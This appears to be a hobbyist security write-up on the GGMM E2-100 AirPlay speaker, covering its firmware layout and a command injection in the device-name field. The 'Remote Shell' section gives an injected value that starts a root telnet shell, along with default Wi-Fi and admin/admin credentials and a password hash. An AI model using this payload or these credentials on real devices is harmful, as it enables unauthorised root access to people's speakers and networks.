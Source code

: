 GGMM E2-100 Speaker
===================

## About
A cheap AirPlay compatible WiFi speaker. The device is running a kernel in version 2.6.36 and is using a buildroot based userland. The root user mapped to "admin" and the device is using a read-only rootfs. More details below:

    # cat /proc/cpuinfo
    system type             : MT7628
    processor               : 0
    cpu model               : MIPS 24Kc V5.5
    BogoMIPS                : 386.04
    wait instruction        : yes
    microsecond timers      : yes
    tlb_entries             : 32
    extra interrupt vector  : yes
    hardware watchpoint     : yes, count: 4, address/irw mask: [0x0000, 0x0ff8, 0x0ff8, 0x0ff8]
    ASEs implemented        : mips16 dsp
    shadow register sets    : 1
    core                    : 0
    VCED exceptions         : not available
    VCEI exceptions         : not available

    # cat passwd
    admin:L4lwAM7zGEySM:0:0:Adminstrator:/:/bin/sh

    # mount
    rootfs on / type rootfs (rw)
    /dev/root on / type squashfs (ro,relatime)
    proc on /proc type proc (rw,relatime)
    none on /var type ramfs (rw,relatime)
    none on /etc type ramfs (rw,relatime)
    none on /tmp type ramfs (rw,relatime)
    none on /media type ramfs (rw,relatime)
    none on /sys type sysfs (rw,relatime)
    none on /dev/pts type devpts (rw,relatime,mode=600)
    mdev on /dev type ramfs (rw,relatime)
    devpts on /dev/pts type devpts (rw,relatime,mode=600)
    /dev/mtdblock8 on /mnt type jffs2 (rw,relatime)
    /dev/mtdblock9 on /vendor type jffs2 (rw,relatime)
    /dev/mtdblock9 on /tmp/web type jffs2 (rw,relatime)

    # df
    Filesystem           1k-blocks      Used Available Use% Mounted on
    rootfs                    5632      5632         0 100% /
    /dev/root                 5632      5632         0 100% /
    /dev/mtdblock8             512       196       316  38% /mnt
    /dev/mtdblock9            6144       732      5412  12% /vendor
    /dev/mtdblock9            6144       732      5412  12% /tmp/web

It seems like the device is using the ralink NVRAM as its main storage for user values. Several scripts were found to reset those values inside and replacing some of its default. Most of the scripts are using the `nvram_get` utility in order to obtain a specific entry of the NVRAM. The command `ralink_init show 2860` basically shows every entry of the ralink 2860 chip, where `ralink_init clear 2860` will clear all of its content. In order to get a single value, `nvram_get SSID1` can be used or `nvram_set SSID1 "bathroom"` to set a value.

## Motivation
It turned out, whenever I tried to set the devicename to "bathroom", it started to append a random string to the end of the name, so it became `bathroomssConnectEm` and something along those lines. Frustrated by that, I started playing around with the devicename. It turned out very quickly, it doesn't strip anything I write into the field, I was able to use whitespaces, linebreaks and all that.

- Problem: Device name gets overwritten/appended by other strings
- Observation: Device name accepts all inputs and looks wonky
- Result: Obvious...

## Remote Shell
By default, the speaker comes in AP mode:

    SSID: GGMM_E2_XXX
    Password: ggmm123456

The device is running a dnsmasq service that will provide you a `10.10.10.x` IP address,
the speaker itself can be found at 10.10.10.254. On port 80 you will be greeted by a webfrontend.
Since the webfrontend is provided by cgi-scripts running on a lighttpd, it's clear to play around with some parsing issues first.
Fortunately the only input field you have - the device name - is exploitable.

Knowing this, obtaining a remote shell is as simple as setting the hostname to:

    abc`telnetd -l /bin/sh`

It's required to either reboot the device or putting it into another WiFi to get our command executed. Since telnetd is already enabled by default in the shipped busybox version, you'll be greeted by a beautiful telnet shell when connecting.
The device uses `admin` as the default root user, the password is `admin` aswell.
